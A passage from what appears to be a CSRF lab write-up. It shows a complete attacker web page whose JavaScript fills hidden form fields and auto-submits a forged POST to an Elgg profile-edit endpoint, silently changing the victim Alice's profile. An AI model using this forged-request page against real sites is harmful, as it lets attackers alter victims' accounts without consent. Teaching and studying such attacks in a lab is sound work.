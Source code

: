 * Boby creates the malicious web page as following, and sends the link of the website `http://www.csrflabattacker.com` to Alice. 

  ```html
  <html>
      <body>
          <h1>This page forges an HTTP POST request.</h1>
          <script type="text/javascript">
  
          function forge_post()
          {
              var fields;
  
              // The following are form entries need to be filled out by attackers.
              // The entries are made hidden, so the victim won't be able to see them.
              fields += "<input type='hidden' name='name' value='Alice''>";
              fields += "<input type='hidden' name='briefdescription' value='Boby is my Hero'>";
              fields += "<input type='hidden' name='accesslevel[briefdescription]'
              value='2'>";
              fields += "<input type='hidden' name='guid' value='42'>";
  
               // Create a <form> element.
               var p = document.createElement("form");
  
               // Construct the form
               p.action = "http://www.csrflabelgg.com/action/profile/edit";
               p.innerHTML = fields;
               p.method = "post";
  
               // Append the form to the current page.
               document.body.appendChild(p);
  
               // Submit the form
               p.submit();
           }
  
           // Invoke forge_post() after the page is loaded.
           window.onload = function() { forge_post();}
           </script>
       </body>
  </html>
  ```

* After clicking the link, Alice’s profile is changed:
